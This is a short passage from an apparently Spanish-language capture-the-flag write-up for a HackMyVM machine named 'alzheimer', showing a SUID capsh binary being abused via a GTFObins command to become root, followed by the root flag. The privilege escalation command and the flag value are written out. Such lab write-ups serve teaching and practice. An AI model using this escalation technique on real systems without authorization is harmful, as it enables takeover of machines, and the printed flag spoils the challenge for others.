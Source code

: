 Veremos esta linea bastante interesante:

```
5584   28 -rwsr-sr-x   1 root  root  26776 Feb  6  2019 /usr/sbin/capsh
```

Si buscamos en `GTFObins` veremos que podemos ejecutar lo siguiente para ser `root`:

```shell
/usr/sbin/capsh --gid=0 --uid=0 --
```

Info:

```
root@alzheimer:~# whoami
root
```

Con esto veremos que ya seremos `root` por lo que leeremos las `flag` del `root`.

> root.txt

```
HMVlovememories
```
